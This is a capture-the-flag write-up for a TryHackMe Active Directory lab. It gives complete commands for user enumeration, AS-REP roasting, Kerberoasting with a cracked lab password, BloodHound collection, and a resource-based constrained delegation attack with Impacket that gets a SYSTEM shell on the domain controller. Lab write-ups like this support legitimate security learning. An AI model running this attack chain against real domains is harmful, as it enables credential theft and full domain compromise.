







This box is rated hard difficulty on THM. It involves us Kerberoasting a user who's SPN we can modify and abusing Guest permissions to perform an RBCD attack on the DC in order to grab a shell as SYSTEM.

_This challenge will focus on exploiting an Active Directory environment._

## Scanning & Enumeration
As always, I begin with an Nmap scan against the target IP to find all running services on the host.

```
$ sudo nmap -sCV 10.65.129.69 -oN fullscan-tcp

[sudo] password for cbev: 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-27 19:41 CST
Nmap scan report for 10.65.129.69
Host is up (0.045s latency).
Not shown: 986 closed tcp ports (reset)
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
80/tcp   open  http              Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2026-02-28 01:41:43Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| ssl-cert: Subject: commonName=thm-LABYRINTH-CA
| Not valid before: 2023-05-12T07:26:00
|_Not valid after:  2028-05-12T07:35:59
| http-methods: 
|_  Potentially risky methods: TRACE
| tls-alpn: 
|_  http/1.1
|_http-title: IIS Windows Server
|_ssl-date: 2026-02-28T01:42:05+00:00; 0s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| ssl-cert: Subject: commonName=ad.thm.local
| Not valid before: 2026-02-27T01:13:07
|_Not valid after:  2026-08-29T01:13:07
|_ssl-date: 2026-02-28T01:42:05+00:00; 0s from scanner time.
Service Info: Host: AD; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-02-28T01:41:57
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.95 seconds
```

Looks like a Windows machine with Active Directory components installed on it. There's quite a lot of ports open, so the main things I'll focus on first are HTTP/S, SMB, and Kerberos. Default scripts also show that LDAP is leaking a domain which I'll add to my `/etc/hosts` file.

Viewing the certificate confirms the common name and doesn't give us any alternates. I'll still scan for subdomains and subdirectories in the background to save on some time before heading over to enumerate SMB.



## Attempting to AS-REP Roast
Looks like Guest authentication is enabled over SMB, however there are no interesting file shares available to us other than the defaults. I also brute force RIDs to get a list of users on the system.



We can use a `sed` command to strip the extra data from the list in order to use these usernames for things like Kerberos pre-auth checking, etc.

```
#Printing netexec output to file
$ nxc smb 10.65.129.69 -u 'Guest' -p '' --rid-brute > users.txt

#Extracting usernames from users file
$ sed -n 's/.*THM\\\([^ ]*\).*/\1/p' users.txt > validnames.txt
I quickly check if any of these accounts are valid on the domain using a tool called [Kerbrute](https://github.com/ropnop/kerbrute). 
$ kerbrute userenum -d thm.local --dc 10.65.129.69 ../validnames.txt
```



Next, let's check if any of these accounts have Kerberos pre-authentication disabled so we can grab NTLM hashes. I get hits back for the users MAXINE_FREEMAN, PHYLLIS_MCCOY, QUEEN_GARNER, ISIAH_WALKER, and SHELLEY_BEARD.

```
$ python3 GetNPUsers.py -dc-ip 10.65.129.69 -usersfile ../validnames.txt -no-pass thm.local/
```



## Kerberoasting
None of those hashes crack, so AS-REP Roasting won't be possible for this box, however since LDAP guest authentication is enabled as well, we can use that to get a list of Kerberoastable accounts. 

```
$ nxc ldap ad.thm.local -u 'guest' -p '' --kerberoasting kroast.txt
```

That returns just one TGS for `CODY_ROY`'s account and sending it over to JTR to get the plaintext version actually works this time. 



## BloodHound Enumeration
This opens up a lot of doors for us, but I'm going to use these credentials for LDAP authentication so I can get data to send to Bloodhound. I use [bloodhound-python](https://github.com/dirkjanm/BloodHound.py) for this step as we don't have a shell to use RustHound just yet.

```
$ bloodhound-python -u 'CODY_ROY' -p 'MKO)mko0' -dc ad.thm.local -d thm.local -ns 10.65.175.20 -c all
```

Giving it a minute to ingest those JSON files allows us to map out the domain in order to find any interesting privileges that our account may have over other users/groups. Checking what Cody has permission to do only shows that I was mistaken and that he's allowed to RDP and WinRM onto the box, however there was nothing under the outbound object control, meaning that we'd have to enumerate the filesystem to find things to leverage.

## RBCD to Administrator
It gets overlooked quite often, but the Guest account is worth enumerating to see if they have access to important stuff. Interestingly, by using the pathfinding tool, I discover that that user is a member of the Guests group which has `GenericWrite` access over the AD domain. With this write access enabled, we can effectively modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the Domain Controller in order to carry out a Resource-Based Constraint Delegation (RBCD) attack.



Another requirement for this attack to work is that we need an account with an SPN that we're able to modify. Typically, we'd have to create a machine account since they have SPNs by default, but luckily we already know that Cody's account meets this standard as we Kerberoasted his in previous steps.

If you're unfamiliar with this attack vector - Resource-Based Constrained Delegation (RBCD) is a Kerberos delegation mechanism where a resource (computer object) defines which accounts are allowed to impersonate users to its services via the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.

If we have `GenericWrite` over the domain object, we can abuse it to configure Resource-Based Constrained Delegation (RBCD) and impersonate privileged users. First, we create or control a machine account (or Cody's in our case). We then modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on a target system (such as the Domain Controller) to allow our attacker-controlled machine to delegate authentication to it.

After configuring delegation, we can use tools like [RBCD.py](https://github.com/fortra/impacket/blob/master/examples/rbcd.py) from Impacket to add our controlled machine account to the target's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute. Once this is set, Impacket's [getST.py](https://github.com/fortra/impacket/blob/master/examples/getST.py) can perform the Kerberos `S4U2Self` and `S4U2Proxy` requests to obtain a service ticket that impersonates Administrator to a service on the target host (for example cifs/DC). With this ticket, we can authenticate to that service as Administrator and perform privileged actions such as accessing administrative shares or dumping credentials. This [RedFoxSec article](https://redfoxsec.com/blog/rbcd-resource-based-constrained-delegation-abuse/) is a great read to get a basic understanding of it.

### Ipmacket Toolkit
Let's give it a shot, first we need to set that attribute on the Domain Controller to allow delegation from `CODY_ROY`. Note that we need to use `-k` for Kerberos authentication which is meant to fail or else it will fall back to using NTLM and not work.

```
$ impacket-rbcd thm.local/guest -k -no-pass -dc-ip 10.65.175.20 -delegate-to 'AD$' -delegate-from CODY_ROY -action write
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] CODY_ROY can now impersonate users on AD$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     CODY_ROY     (S-1-5-21-1966530601-3185510712-10604624-1144)
```

Next, we'd like to request a TGS for the CIFS service on the Domain Controller while impersonating the Administrator. 

```
$ impacket-getST -impersonate "Administrator" -spn "cifs/ad.thm.local" -k -no-pass 'THM.LOCAL/CODY_ROY:[REDACTED]'    
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_ad.thm.local@THM.LOCAL.ccache
```

Finally, we export this ticket to the `KRB5CCNAME` variable and then use [smbexec.py](https://github.com/fortra/impacket/blob/master/examples/smbexec.py) to grab a shell as `NT AUTHORITY\SYSTEM` on the box.

```
$ export KRB5CCNAME=Administrator@cifs_ad.thm.local@THM.LOCAL.ccache

$ impacket-smbexec -k -no-pass Administrator@ad.thm.local
```



It wasn't until I was reading some other writeups when I realized this was an unintended way of completing the challenge. We were meant to Kerberoast `CODY_ROY`'s account and crack the hash to get his password. By password-spraying other users on the domain, we find that it's valid for `ZACHARY_HUNT`. Then we discover that he has `genericWrite` access over another account perform a targeted Kerberoasting attack on `JERRI_LANCASTER`. Lastly, there's a PowerShell script that contains credentials for `SANFORD_DAUGHERTY` who is a local administrator on the domain.

```
CODY_ROY (Kerberoast)
        ↓
Password reused → ZACHARY_HUNT
        ↓
GenericWrite abuse
        ↓
Targeted Kerberoast → JERRI_LANCASTER
        ↓
Credentials found in PowerShell script
        ↓
SANFORD_DAUGHERTY (Local Administrator)
```

Honestly, I thought the RBCD attack was cooler and am glad it worked out since I've done a lot of research, but haven't put it to use until now. I hope this was helpful to anyone following along or stuck and happy hacking!
